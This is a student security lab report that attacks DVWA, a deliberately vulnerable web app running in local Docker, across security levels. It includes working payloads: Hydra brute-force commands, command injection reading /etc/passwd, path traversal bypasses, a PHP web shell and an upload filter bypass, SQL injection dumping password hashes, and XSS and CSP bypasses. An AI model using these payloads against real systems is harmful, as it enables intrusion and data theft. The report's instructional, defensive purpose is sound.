# DVWA Security Lab Report

**Student Name:** Abdullah Shaikh
**Student ID:** as09245
**Assignment:** Application Security Testing

# Environment Setup

## Docker Installation

```bash
docker --version
```

**Result:** Docker installed successfully.



## DVWA Deployment

```bash
docker pull vulnerables/web-dvwa
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
```
**Verification:**

```bash
docker ps
```

**Result:** DVWA container running successfully.



DVWA accessible at: `http://localhost:8080`
Login with **admin / password**, then click **Create / Reset Database**.



# Brute Force

## Security Level: Low

**Payload:**

```
Username: admin
Password: password
```

**Result:** Login successful.



**Why it worked:** Low security applies no CAPTCHA. Credentials are checked directly which makes manual guessing work.

## Security Level: Medium

**Payload:**

```bash
hydra -l admin -P /mnt/c/Users/HP/rockyou.txt -s 8080 127.0.0.1 \
  http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:\
H=Cookie: security=medium; PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7:S=Welcome" \
  -t 1 -w 10 -V -f
```

**Result:** Login credentials found via Hydra.



**Why it worked:** Medium security introduces a small time delay between failed attempts but does not lock the account or use CAPTCHA. Hydra iterates with a bunch of passwords and succeeds.

## Security Level: High

**Payload:**

```bash
hydra -l admin -P /mnt/c/Users/HP/rockyou.txt -s 8080 127.0.0.1 \
  http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login\
&user_token=fd7f99da9f6dd8f33b239fdf93be31d7:\
H=Cookie: security=high; PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7:\
F=Username and/or password incorrect" \
  -t 1 -w 10 -V -f
```

**Result:** Attack is significantly hindered by CSRF token requirement.



**Why it's harder:** High security introduces a CSRF token (`user_token`). Each login attempt requires a fresh, unpredictable token fetched from the previous page response, making static wordlist attacks with Hydra largely ineffective without a custom user token.

# Command Injection

## Security Level: Low

**Payload:**

```
127.0.0.1; ls
```

**Result:** Server executed `ls` and returned directory listing.



**Why it worked:** DVWA directly inserts the user input into a system command since at low severity.

## Security Level: Medium

**Payload:**

```
127.0.0.1 | cat /etc/passwd
```

**Result:** Contents of `/etc/passwd` returned.



**Why it worked:** Medium security filters `&&` and `;` but not the pipe `|` operator. Using `|` chains commands and bypasses.

## Security Level: High

**Payload:**

```
127.0.0.1 | cat /etc/passwd
```

**Result:** Injection still partially succeeds using pipe operator.



**Why it worked / harder:** High security has a more extensive blacklist but certain operator combinations still work.

# Cross-Site Request Forgery (CSRF)

## Security Level: Low

**Payload:**
```
http://localhost:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```

**Result:** Password changed successfully without any token validation.



**Why it worked:** Low security processes the password change request with no CSRF token check. The password change is triggered simply by visiting a crafted URL.

## Security Level: Medium

**Payload:**

```bash
curl -v --referer "http://127.0.0.1:8080/vulnerabilities/csrf/" \
  "http://127.0.0.1:8080/vulnerabilities/csrf/?password_new=pwn&password_conf=pwn&Change=Change" \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=medium"
```

**Result:** Password changed.



**Why it worked:** It worked because the application does not properly verify whether the password change request is legitimate. An attacker can directly send a crafted request to the server, and the server processes it without confirming that it came from a trusted action by the user.

## Security Level: High

**Payload:**

```bash
curl "http://127.0.0.1:8080/vulnerabilities/csrf/?password_new=pwn\
&password_conf=pwn&Change=Change&user_token=140f4003b7a890dbc1cd50f23e0a0c5a" \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=high"
```

**Result:** Requires a valid, one-time CSRF token per request.



**Why it's harder:** High security requires a valid `user_token` that is unique per session and per request.

# File Inclusion

## Security Level: Low

**Payload:**

```
http://localhost:8080/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

**Result:** Contents of `/etc/passwd` displayed in the browser.



**Why it worked:** The page parameter is used directly in the include() function without checking the path. This lets attackers use ../ to access files outside the web directory.

## Security Level: Medium

**Payload:**

```
http://localhost:8080/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd
```

**Result:** bypass succeeded.



**Why it worked:** Medium security strips `../` from the input, but does so only once. Using `....//` causes the filter to remove the inner `../`.

## Security Level: High

**Payload:**

```
http://localhost:8080/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
```

**Result:** Accessed a local file using the `file://`.



**Why it worked:** High security blocks `../` traversal but still permits PHP files like `file://`. 

# File Upload

## Security Level: Low

**Payload — `shell.php`:**

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Result:** PHP webshell uploaded and executed successfully.



**Why it worked:** Low security performs no validation on uploaded files. Any file type is accepted and stored directly on the server.

## Security Level: Medium

**Payload:**

```bash
curl -v -F "uploaded=@shell2.php;type=image/jpeg" \
  -F "Upload=Upload" \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=medium" \
  http://127.0.0.1:8080/vulnerabilities/upload/
```

**Result:** PHP shell uploaded type to `image/jpeg`.



**Why it worked:** Medium security only checks the file information sent by the user. Since this can be easily changed, an attacker can upload a .php file by pretending it is an image.

## Security Level: High

**Payload — `shell3.jpg`:**

```
GIF89a;
<?php system($_REQUEST["cmd"]); ?>
```

```bash
curl -v -F "uploaded=@/home/abdullah/shell3.jpg;type=image/jpeg" \
  -F "Upload=Upload" \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=high" \
  http://127.0.0.1:8080/vulnerabilities/upload/
```

**Result:** file accepted..



**Why it worked:** High security checks bothE type and file extension. Prepending the GIF magic bytes (`GIF89a;`) makes the file appear to be a valid image.

# Insecure CAPTCHA

## Security Level: Low

**Method:** In browser DevTools → Network tab, intercept the form submission and manually change `step=1` to `step=2` in the request payload.

**Result:** Password changed by skipping the CAPTCHA verification step entirely.




**Why it worked:** Low security uses a two-step process but does not enforce that step 1 (CAPTCHA verification) was actually completed before processing step 2 (password change).

## Security Level: Medium

**Payload:**

```bash
curl -X POST http://127.0.0.1:8080/vulnerabilities/captcha/ \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=medium" \
  -d "step=2&password_new=pwn&password_conf=pwn\
&g-recaptcha-response=&Change=Change&passed_captcha=true"
```

**Result:** Password changed.



**Why it worked:** Medium security checks for a `passed_captcha` parameter in the data to determine if CAPTCHA was solved. 

## Security Level: High

**Payload:**

```bash
curl -v -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=high" \
  -d "step=1&password_new=pwn&password_conf=pwn\
&g-recaptcha-response=hidd3n_valu3\
&user_token=ff1fe1da0cc25ea226aa57e9c2ecb6d9&Change=Change" \
  http://127.0.0.1:8080/vulnerabilities/captcha/
```

**Result:** Bypass using a hidden CAPTCHA response value embedded in the source code.


**Why it worked:** High security validates the CAPTCHA response server-side but uses a hardcoded fallback value (`hidd3n_valu3`) in the source, which was discovered by inspecting the page HTML. 

# SQL Injection

## Security Level: Low

**Payload:**
```sql
1' OR '1'='1' #
```

**Result:** All user records returned from the database.



**Why it worked:** User input is concatenated directly into the SQL query string forming: `SELECT * FROM users WHERE id='1' OR '1'='1' #` the `OR '1'='1'` condition always evaluates to true, returning all rows, and `#` comments out the rest of the query.

## Security Level: Medium

**Payload:**

```bash
curl -X POST http://127.0.0.1:8080/vulnerabilities/sqli/ \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=medium" \
  -d "id=1 OR 1=1#&Submit=Submit"
```

**Result:** All records returned via POST-based injection.



**Why it worked:** Medium security treats the ID parameter as an integer so numeric injection bypasses the filter entirely.

## Security Level: High

**Payload:**

```sql
0' UNION SELECT first_name, password FROM users #
```

**Result:** Usernames and password hashes extracted..



**Why it worked:**  The UNION statement appends a second query to dump the users table.

# SQL Injection (Blind)

## Security Level: Low

**Payload:**

```sql
1' AND 1=1 #
```

**Result:** Page returned normally.



**Why it worked:** The injected boolean condition is evaluated by the database. A true condition returns user data and a false condition (e.g., `1=2`) will return nothing which confirms blind injection is possible.

## Security Level: Medium

**Payload:**

```bash
curl -X POST http://127.0.0.1:8080/vulnerabilities/sqli_blind/ \
  -b "PHPSESSID=1vh43vkr2fjatjuoqteqiq05r7; security=medium" \
  -d "id=1 OR 1=1#&Submit=Submit"
```

**Result:** Boolean-based blind injection confirmed via POST.



**Why it worked:** Same as Low.
---

## Security Level: High

**Payload:**

```sql
1' AND 1=1#
```

**Result:** Condition evaluated successfully.



**Why it worked:** High security uses a cookie-based input. Manually crafting requests with the injected cookie value bypasses.

# Weak Session IDs

## Security Level: Low

**Observation:** Session IDs are simple incrementing integers (1, 2, 3...).

**Result:** An attacker can enumerate valid session IDs by guessing sequential values.



se

## Security Level: Medium

**Observation:** Session IDs are generated using the current Unix timestamp.

**Result:** IDs are time-based and predictable within a narrow window.





## Security Level: High

**Observation:** Session IDs appear random (MD5 hash and not obvious visually).



# XSS (DOM)

## Security Level: Low

**Payload:**
```
http://localhost:8080/vulnerabilities/xss_d/?default=#%3Cscript%3Ealert(1)%3C/script%3E
```

**Result:** Alert box appeared in the browser.



**Why it worked:** The payload is placed after the `#` in the URL. The page reads `document.location` and writes the content directly into the DOM causing `<script>alert(1)</script>` to execute.

## Security Level: Medium

**Payload:**

```
http://localhost:8080/vulnerabilities/xss_d/?default=
```

**Result:** Alert appeared.



**Why it worked:** Medium security blocks `<script>` tags but not other HTML tags like img. An `` tag with `onerror` attribute executes JavaScript when the image fails to load.

## Security Level: High

**Payload:**

```
http://127.0.0.1:8080/vulnerabilities/xss_d/?default=English#%3Cimg%20src=x%20onerror=alert(document.cookie)%3E
```

**Result:** alert appeared.



**Why it worked:** High security filters the default parameter on the server, but the part after # is only handled by the browser. If the website’s JavaScript reads this value, the malicious code can run without being filtered.

# XSS (Reflected)

## Security Level: Low

**Payload:**

```
http://localhost:8080/vulnerabilities/xss_r/?name=<script>alert(1)</script>
```

**Result:** Script executed.



**Why it worked:** The `name` parameter is reflected directly into the HTML response.

## Security Level: Medium

**Payload:**

```html

```

**Result:** Alert appeared via img.



**Why it worked:** Medium security strips `<script>` tags using a basic string replacement, but leaves other HTML tags unfiltered like img.

## Security Level: High

**Payload:**

```html

```

**Result:** Cookie value alerted.



**Why it worked:** High security allows only certain tags, but some attributes can still be used to execute malicious code.

# XSS (Stored)

## Security Level: Low

**Payload (message field):**

```html
<script>alert(1)</script>
```

**Result:** Script executes for every user who views the page.


**Why it worked:** The message is stored in the database and rendered back into the page for all visitors.

## Security Level: Medium

**Payload:**

```
Name:    abd
Message: 
```

**Result:** Persistent XSS via image tag stored in the database.


**Why it worked:** Medium security filters `<script>` in the message field but does not sanitize HTML event handlers on other elements like ``.

## Security Level: High

**Method:** Used browser DevTools to increase the `maxlength` attribute of the name input field, then submitted:

```html
<body onload=alert('1')>
```

**Result:** executed via the `onload` event on the `<body>` tag.




**Why it worked:** High security enforces a character limit on the name field client-side, but this restriction only exists in the browser's HTML. Modifying the DOM attribute bypasses the limit. The server does not re-validate the length or sanitize event handler attributes on `<body>`.

# CSP Bypass

## Security Level: Low

**Method:** The CSP policy at Low level allows scripts from external sources. A custom JavaScript file `csp.js` was uploaded with the content:

```javascript
alert("CSP Bypass Successful");
```

**Result:** External script executed, demonstrating the weak CSP allows untrusted sources.




**Why it worked:** The Content Security Policy at low level is permissive, it allows any script source.

## Security Level: Medium

**Payload:**

```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```

**Result:** Script executed.



**Why it worked:** The CSP uses a static nonce value that is hardcoded in the page source rather than being regenerated per request. Once the nonce is read from the HTML, it can be reused indefinitely in injected scripts.

## Security Level: High

**Method:** In browser DevTools → Network tab, clicked Submit to trigger a request to `json.php?callback=solveSum`. Opened that URL in a new tab and replaced the `callback` parameter value with:

```
alert("1")//
```

**Result:** The JSONP callback executed arbitrary JavaScript.





**Why it worked:** The page uses a JSONP endpoint (`json.php?callback=`) to load data. The browser trusts this callback parameter.

# JavaScript

## Security Level: Low

**Method:** Opened browser DevTools Console and ran:

```javascript
generate_token()
```

Then clicked Submit.

**Result:** Valid token generated client-side, form accepted.




**Why it worked:** Token generation logic is fully exposed in the JavaScript. Calling the function manually produces a valid token that the server accepts.

## Security Level: Medium

**Method:** In browser DevTools Console, ran:

```javascript
do_elsesomething("XX")
```

Then clicked Submit.

**Result:** Token set to the expected value, form submitted successfully.




**Why it worked:** In Medium security, the token generation function is still present in the source. Calling the internal function directly from the console bypasses the intended user flow.

## Security Level: High

**Method:** Reversed the token generation algorithm from the source:
1. Start with the phrase `success`
2. Prepend `XX` → `XXsuccess`
3. SHA256 hash → intermediate hash
4. Append `ZZ` → `{hash}ZZ`
5. SHA256 hash again → final token

**Final token:**

```
ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84
```

**Payload:**

```bash
curl -X POST "http://localhost:8080/vulnerabilities/javascript/" \
  -d "token=ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84\
&phrase=success&send=Submit" \
  -H "Cookie: PHPSESSID=vdo9sbstlrjtqjud44gcrfh0v2; security=high"
```

**Result:** Server accepted the manually computed token.



**Why it worked:** In High security, the token generation using a double SHA256 chain, but since this logic runs entirely in the browser, it can be reverse-engineered by reading the JavaScript source. 

# Analysis & Comparison

## Vulnerability Behavior Across Security Levels

| Vulnerability | Low | Medium | High |
|---|---|---|---|
| Brute Force | No protection | Time delay only | CSRF token required |
| Command Injection | Direct execution | Partial blacklist | Stronger blacklist |
| CSRF | No token | Referer check | CSRF token required |
| File Inclusion | Direct traversal | Single-pass filter | Wrapper bypass |
| File Upload | No validation | MIME check only | Magic byte check |
| Insecure CAPTCHA | Step skip | Client param injection | Hardcoded value |
| SQL Injection | No sanitization | Integer bypass | Interface obfuscation |
| SQL Injection Blind | No sanitization | Integer bypass | Cookie-based input |
| Weak Session IDs | Sequential ints | Unix timestamp | Hashed timestamp |
| XSS DOM | `<script>` works | Tag bypass needed | Fragment bypass |
| XSS Reflected | `<script>` works | Tag bypass needed | Event handler |
| XSS Stored | `<script>` works | Tag bypass needed | Length bypass |
| CSP Bypass | Permissive policy | Static nonce | JSONP abuse |
| JavaScript | Exposed function | Obfuscated function | Reverse engineering |

# Docker Inspection Tasks

## `docker ps`
```bash
docker ps
```

**Result:** Displays all running containers with their ID, image, ports, and status.



## `docker inspect dvwa`
```bash
docker inspect dvwa
```

**Result:** Returns detailed JSON output containing the container's full configuration including network settings, mount points, environment variables, and runtime metadata.



## `docker logs dvwa`
```bash
docker logs dvwa
```

**Result:** Displays all logs showing every request received by the container.


## `docker exec -it dvwa /bin/bash`
```bash
docker exec -it dvwa /bin/bash
```

## Inside the Container: `ls /var/www/html`
```bash
ls /var/www/html
```

**Result:** Lists all DVWA application files, including `index.php`, `login.php`, and the `vulnerabilities/` directory..



## Explanations

### Where Application Files Are Stored

DVWA's application files are stored at `/var/www/html` inside the container.

### What Backend Technology DVWA Uses

DVWA runs on a **LAMP stack**:

| Component | Technology |
|-----------|------------|
| **L** | Linux (Debian inside the container) |
| **A** | Apache 2 (web server) |
| **M** | MySQL (database backend) |
| **P** | PHP (application logic) |

This is confirmed by the Apache entries in `docker logs`, the `.php` file extensions visible in `ls /var/www/html`.

### How Docker Isolates the Environment

The container has its own filesystem. Files inside `/var/www/html` are completely separate from the host. Neither the host nor other containers can access them unless explicitly shared via a volume mount. The container runs in its own network namespace. DVWA is only reachable on the host at `localhost:8080`.

# Security Analysis

## 1. Why Does SQL Injection Succeed at Low Security?

Low security does not properly validate or filter user input, so malicious SQL code can be inserted into the query.

## 2. What Control Prevents It at High Security?

High security uses prepared statements so user input is treated only as data, not as part of the SQL command. This prevents attackers from changing the structure of the query.

## 3. Does HTTPS Prevent These Attacks? Why or Why Not?

No. HTTPS only encrypts communication, but it does not stop malicious input from reaching the server.

## 4. What Risks Exist If This Application Is Deployed Publicly?

Attackers could steal data, change passwords, upload malicious files, or take control of the server.

## 5. OWASP Top 10 Mapping

| Vulnerability | OWASP Top 10 Category |
|---|---|
| SQL Injection | **Injection** |
| SQL Injection (Blind) | **Injection** |
| Command Injection | **Injection** |
| XSS (DOM) | **Injection** |
| XSS (Reflected) | **Injection** |
| XSS (Stored) | **Injection** |
| File Inclusion | **Security Misconfiguration** |
| File Upload | **Misconfiguration** |
| CSP Bypass | **Security Misconfiguration** |
| CSRF | **Broken Access Control** |
| Insecure CAPTCHA | **Broken Access Control** |
| Weak Session IDs | **Identification and Authentication Failures** |
| Brute Force | **Identification and Authentication Failures** |
| JavaScript Security | **Software and Data Integrity Failures** |

# Bonus

## Part 1: Deploy DVWA Behind Nginx Reverse Proxy

DVWA was deployed behind an Nginx reverse proxy using Docker Compose.

**Result:** Both containers running successfully.



## Part 2: Implement HTTPS Using Self-Signed Certificate

A self-signed SSL certificate was generated using OpenSSL and configured in Nginx to enable HTTPS on port 443.

**Certificate generation:**
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout certs/dvwa.key \
  -out certs/dvwa.crt
```



**Result:** Visiting `http://localhost` redirects to `https://localhost`. The browser shows a self-signed certificate warning. By clicking Advanced we proceed to dvwa.





## Part 3: HTTP vs HTTPS Traffic Difference

| Feature | HTTP | HTTPS |
|---------|------|-------|
| Port | 80 | 443 |
| Encryption | None | TLS 1.2/1.3 |
| Credentials visible in traffic | Yes | No |
| Session cookies visible | Yes | No |
| Certificate required | No | Yes |

**HTTP** transmits everything in plain text. An attacker intercepting the traffic can read credentials, cookies, and all request data directly.

**HTTPS** encrypts all data using TLS before transmission. An attacker intercepting the traffic sees only unreadable encrypted data.